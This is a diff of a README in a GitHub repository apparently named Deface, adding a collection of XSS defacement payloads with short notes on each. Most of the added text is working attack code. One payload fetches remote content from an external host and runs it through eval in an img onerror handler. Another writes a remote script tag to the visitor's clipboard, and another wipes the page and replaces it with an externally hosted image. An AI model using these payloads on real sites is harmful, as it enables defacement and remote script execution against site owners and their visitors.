

Before and after one commit to Karthikdude/Deface, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -21,3 +117,45 @@ This repository contains various XSS (Cross-Site Scripting) deface payloads that
+**Details:** This payload uses a `MutationObserver` to monitor changes to the `body` element. If the body changes, it reloads the defacement content, ensuring persistence.
+
+---
+
+### Using `navigator.clipboard` to Inject Content
+
+```html
+<script>
+navigator.clipboard.writeText('<script src="https://karthikdude.github.io/Deface/script.js"></script>');
+alert('Clipboard content updated!');
+</script>
+```
+
+**Details:** This payload writes a malicious script to the clipboard. While it doesn’t directly deface the site, it can trick users into pasting harmful content.
+
+---
+
+### Using `document.createElement` with Image Injection
+
+```html
+<script>
+const img = document.createElement('img');
+img.src = 'https://karthikdude.github.io/Deface/image.jpg';
+img.style = 'width: 100%; height: auto;';
+document.body.innerHTML = '';
+document.body.appendChild(img);
+</script>
+```
+
+**Details:** This payload replaces the entire content of the page with an image from an external source. It is a visual defacement technique.
+
+---
+
+### Using `onerror` Attribute for Script Execution
+
+```html
+<img src="invalid.jpg" onerror="fetch('https://karthikdude.github.io/Deface/').then(res => res.text()).then(eval)">
+```
+
+**Details:** This payload uses the `onerror` attribute of an image element to execute a script when the image fails to load.
+
+
 
 ## Using jQuery to load and execute external content
 
````
Also changed, not shown: other parts of README.md (+96 -0 lines).
